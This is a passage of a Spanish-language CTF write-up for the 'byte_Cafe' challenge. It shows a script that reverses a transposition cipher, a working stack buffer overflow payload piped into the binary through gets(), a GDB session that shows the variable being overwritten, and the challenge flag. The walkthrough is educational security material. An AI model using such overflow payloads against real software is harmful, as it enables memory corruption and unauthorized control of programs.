Puedes reproducir el descifrado sin ejecutar el binario, con este script (útil para demostrar que entendiste el algoritmo):

```python
#!/usr/bin/env python3
clave = "KEY"
cifrado = "ACLHCENCFOEE"

cols = len(clave)                       # 3
filas = (len(cifrado) + cols - 1)//cols # 4

# 1. Orden de columnas según la clave (E<K<Y  ->  [1,0,2])
orden = sorted(range(cols), key=lambda i: clave[i])

# 2. Rellenar la tabla por columnas, en ese orden
tabla = [[""]*cols for _ in range(filas)]
c = 0
for col in orden:
    for f in range(filas):
        tabla[f][col] = cifrado[c]; c += 1

# 3. Leer por filas
flag = "".join(tabla[f][col] for f in range(filas) for col in range(cols))
print(flag)     # CAFECONLECHE
```

### 8.1 Juntar las dos partes

El binario imprime **dos** cosas cuando `local_c == 5`, y no es casualidad que el texto diga *"**primer** parte de la flag"*: nos avisa de que hay una segunda parte. Las dos simplemente **se concatenan**:

| Parte | De dónde sale | Valor |
|-------|---------------|-------|
| 1ª    | Lo que decodifica `decodificar_transposicion` | `CAFECONLECHE` |
| 2ª    | El literal que imprime `if (local_c == 5)` | `_YTORTA` |

```
CAFECONLECHE  +  _YTORTA  =  CAFECONLECHE_YTORTA
```

Leído en español, el `_` separa las palabras: **"CAFE CON LECHE Y TORTA"** ☕🍰 — totalmente coherente con la temática "Byte Café".

**Flag:** `CAFECONLECHE_YTORTA`

---

## 9. Resumen final + errores comunes

### 9.1 El reto en 5 pasos



Comando final:

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*1004 + b'\x05\x00\x00\x00')" | ./byte_Cafe
```

### 9.2 Errores comunes (guía de depuración)

Si algo no sale, mira aquí antes de desesperarte:

| Síntoma | Causa probable | Cómo arreglarlo |
|---------|----------------|-----------------|
| No imprime nada de flag | El relleno no llega a `local_c` (menos de 1004 bytes) | Cuenta bien: **1004** bytes exactos antes del número. |
| Imprime `CAFECONLECHE` pero **no** `_YTORTA` | `local_c` quedó distinto de 0 pero distinto de 5 | Casi seguro pusiste los bytes al revés (`\x00\x00\x00\x05`) o de más. Usa `\x05\x00\x00\x00`. |
| El `\x05` no llega bien / entrada cortada | Usaste `echo` o tecleaste a mano | Los bytes `\x00` no se teclean. **Genera el payload con Python + pipe.** |
| `print` añade una `A` de más o un salto raro | `print` mete un `\n` al final y maneja texto, no bytes | Usa `sys.stdout.buffer.write(...)` o `pwntools`. |
| Cuenta 1005 en vez de 1004 | Confundiste "tamaño del buffer" con "offset" | El offset se calcula con las direcciones reales del ensamblador (`0x3f0 - 0x4`), no siempre coincide con el tamaño del array. |
| `bash: ./byte_Cafe: Permission denied` | El binario no tiene permiso de ejecución | `chmod +x byte_Cafe` |
| `cannot execute binary file` | La arquitectura no coincide (p. ej. binario de 32 bits sin librerías) | Es un ELF x86-64; ejecútalo en un Linux de 64 bits. |

### 9.3 La lección de seguridad

`gets()` es el villano de esta historia. **Nunca** comprueba el tamaño del destino, por eso está prohibida desde el estándar C11. Su reemplazo seguro es `fgets(buffer, tamaño, stdin)`, que **sí** recibe el tamaño máximo y se niega a escribir de más. Este reto es, en el fondo, una demostración de por qué esa función desapareció del lenguaje.

---

## 10. Anexo opcional

### 10.1 Ver el overflow en vivo con GDB

`gdb` (*GNU Debugger*) es un **depurador**: una herramienta que ejecuta el programa de forma controlada, permite **pararlo** en el punto que quieras, avanzar paso a paso y **mirar la memoria y los registros** en cualquier instante. Aquí lo usaremos con un objetivo muy concreto: **ver con nuestros propios ojos** cómo el byte de `local_c` pasa de `0` a `5` en el momento exacto en que `gets()` desborda el buffer.

En **Kali Linux** `gdb` ya viene instalado. Si trabajas en otra distro y no lo tienes:

```bash
sudo apt update && sudo apt install gdb      # Debian / Ubuntu / Kali
```

> No hace falta ningún plugin (gef, pwndbg…) para este anexo; con el `gdb` "pelado" basta. Si los tienes instalados, los comandos de abajo funcionan igual.

**Paso 1 — Preparar el payload en un archivo.**
Dentro de `gdb` no podemos "teclear" bytes nulos (`\x00`), igual que en la terminal normal (sección 6). La solución es dejar el payload en un archivo y luego hacer que `gdb` se lo dé al programa como entrada. Desde la terminal de Kali, en la carpeta del binario:

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*1004 + b'\x05\x00\x00\x00')" > payload.bin
```

Esto crea `payload.bin` (1008 bytes: 1004 `A` + `05 00 00 00`). Puedes comprobarlo con `ls -l payload.bin` (debe decir `1008`) o mirarlo en hexadecimal con `xxd payload.bin | tail`.

**Paso 2 — Arrancar gdb con el binario.**

```bash
gdb ./byte_Cafe
```

Aparece el prompt propio del depurador: `(gdb)`. **Ese `(gdb)` lo escribe él, no tú**; tú solo escribes lo que va después. A partir de aquí, cada línea es un comando de `gdb`.

**Paso 3 — Poner un "punto de parada" (breakpoint) en `gets`.**
Un **breakpoint** es una marca que le dice a `gdb`: *"cuando la ejecución llegue aquí, detente y devuélveme el control"*. Lo colocamos en la función `gets`, que es justo donde se produce el fallo:

```gdb
(gdb) break gets
```

`gdb` responde algo como `Breakpoint 1 at 0x...` (la dirección varía por PIE; no importa, ver sección 10.2).

**Paso 4 — Ejecutar, dándole el payload como entrada.**
El `<` redirige el archivo hacia la entrada estándar del programa (es lo que en el Paso 1 preparamos): así `gets()` leerá nuestros 1008 bytes **sin que tengamos que teclearlos**.

```gdb
(gdb) run < payload.bin
```

El programa imprime los mensajes de bienvenida y se **detiene al entrar en `gets`**, *antes* de leer nada. En este instante `local_c` todavía vale 0.

**Paso 5 — Mirar `local_c` ANTES del overflow.**
En este punto estamos "dentro" de `gets`, cuyo marco de pila es distinto al de `main`. Como `local_c` es una variable de `main`, primero subimos al marco de `main` con `frame 1` y luego leemos la dirección `rbp-0x4` (la que dedujimos en la sección 4 a partir del ensamblador):

```gdb
(gdb) frame 1
(gdb) x/1dw $rbp-0x4
```

- `frame 1` selecciona el marco de la función que llamó a `gets`, es decir `main`. (Con `bt`, *backtrace*, verías la lista de marcos: `#0 gets`, `#1 main`.)
- `x/1dw $rbp-0x4` significa: e**x**aminar **1** valor, en formato **d**ecimal, de tamaño **w**ord (4 bytes = un `int`), en la dirección `rbp-0x4`. Esa es exactamente la posición de `local_c`.

Resultado esperado (el `0x...` de la izquierda es la dirección, cambia por PIE):

```
0x7fffffffe4ec: 0
```

Ahí está el **0** de `local_c` antes de tocar nada.

**Paso 6 — Dejar que `gets` termine (aquí ocurre el overflow).**
`finish` ejecuta lo que queda de la función actual y para al volver a quien la llamó. Ojo: `finish` actúa sobre el marco *seleccionado*, así que volvemos primero al marco de `gets` (el número 0) y luego lo dejamos terminar:

```gdb
(gdb) frame 0
(gdb) finish
```

Durante ese `finish`, `gets()` copia los 1008 bytes del payload: los 1004 primeros llenan el buffer y los 4 últimos (`05 00 00 00`) pisan `local_c`. Al terminar, el control vuelve a `main`.

**Paso 7 — Mirar `local_c` DESPUÉS del overflow.**
Ya estamos de vuelta en `main` (marco 0), así que `$rbp` es directamente el de `main`:

```gdb
(gdb) x/1dw $rbp-0x4        # el valor como número decimal
(gdb) x/4xb $rbp-0x4        # los 4 bytes individuales, en orden de memoria
```

Resultado esperado:

```
0x7fffffffe4ec: 5
0x7fffffffe4ec: 0x05    0x00    0x00    0x00
```

- La primera línea confirma que `local_c` ahora vale **5** (número decimal): se cumplirán las condiciones `!= 0` y `== 5`.
- La segunda línea es la joya didáctica: enseña los 4 bytes tal cual están en memoria, **`05 00 00 00`** — exactamente el little-endian que pusimos en el payload (`\x05\x00\x00\x00`, sección 5.1). Ver esos bytes en el orden real cierra el círculo de todo el reto.

**Paso 8 — Continuar y salir.**
Deja que el programa siga hasta el final para ver la flag por pantalla, y luego cierra el depurador:

```gdb
(gdb) continue             # sigue la ejecución: imprime CAFECONLECHE y _YTORTA
(gdb) quit                 # salir de gdb (responde 'y' si pregunta)
```

**Sesión completa, de un vistazo** (lo que tú escribes va tras `(gdb)`):

```gdb
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*1004 + b'\x05\x00\x00\x00')" > payload.bin
$ gdb ./byte_Cafe
(gdb) break gets
(gdb) run < payload.bin
(gdb) frame 1
(gdb) x/1dw $rbp-0x4        # -> 0   (local_c antes del overflow)
(gdb) frame 0
(gdb) finish
(gdb) x/1dw $rbp-0x4        # -> 5   (local_c después: ya está pisado)
(gdb) x/4xb $rbp-0x4        # -> 0x05 0x00 0x00 0x00  (little-endian real)
(gdb) continue             # imprime la flag
(gdb) quit
```

Ver el `0` convertirse en `5`, y los bytes `05 00 00 00` colocados en su sitio, es la mejor forma de interiorizar lo que de verdad hace el overflow.

### 10.2 ¿Por qué no hubo que preocuparse por el "canary" ni por PIE?

Dos protecciones típicas que **aquí no nos afectaron**:

- **Stack canary:** es un valor secreto que el compilador coloca *entre las variables locales y la dirección de retorno*. Si un overflow lo pisa, el programa aborta con `stack smashing detected`. En este reto **no molesta** porque `local_c` está **antes** del canary (más cerca del buffer): lo alcanzamos sin tocar el canary. Solo tendríamos que preocuparnos si quisiéramos sobrescribir la dirección de retorno, que no es el caso.
- **PIE:** hace que el programa se cargue en una dirección aleatoria cada ejecución. Importa cuando el exploit necesita **saltar a una dirección concreta**. Aquí solo cambiamos el **valor de una variable local** (que está relativa a RBP, no a una dirección absoluta), así que la aleatoriedad de PIE es irrelevante.

En resumen: este es un overflow "de datos" (cambiar una variable), no "de control de flujo" (secuestrar la ejecución), y por eso es un excelente primer reto: enseña el concepto del desbordamiento sin la complejidad de esquivar todas las protecciones modernas.

---

**Flag:** `CAFECONLECHE_YTORTA`
